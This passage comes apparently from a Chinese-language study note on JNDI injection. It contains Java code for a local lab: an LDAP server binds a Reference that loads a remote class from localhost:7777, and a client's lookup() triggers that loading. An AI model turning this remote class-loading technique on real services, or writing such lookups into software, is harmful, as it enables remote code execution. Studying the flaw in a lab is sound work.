 9. 最后结果应该是这样：
    ![image-20230513151606457](JNDI-Injection/image-20230513151606457.png)

### 3.3 漏洞使用

1. JDNI + LDAP 服务端（不想 RMI，执行一次即可）：
    ```java
    package com.endlessshw.server;
    
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    import javax.naming.Reference;
    import java.rmi.RemoteException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2023/5/13 14:45
     */
    public class JNDILDAPServer {
        public static void main(String[] args) throws NamingException, RemoteException {
            InitialContext initialContext = new InitialContext();
            // 这里需要注意，TestRef 这个类不能有包 package
            Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:7777/");
            // 注意 url 的写法
            initialContext.rebind("ldap://localhost:10389/cn=test,dc=endlessshw,dc=com", reference);
        }
    }
    ```

2. JNDI + LDAP 服务端：
    ```java
    package com.endlessshw.client;
    
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2023/5/13 14:55
     */
    public class JNDILDAPClient {
        public static void main(String[] args) throws NamingException {
            InitialContext initialContext = new InitialContext();
            initialContext.lookup("ldap://localhost:10389/cn=test,dc=endlessshw,dc=com");
        }
    }
    ```
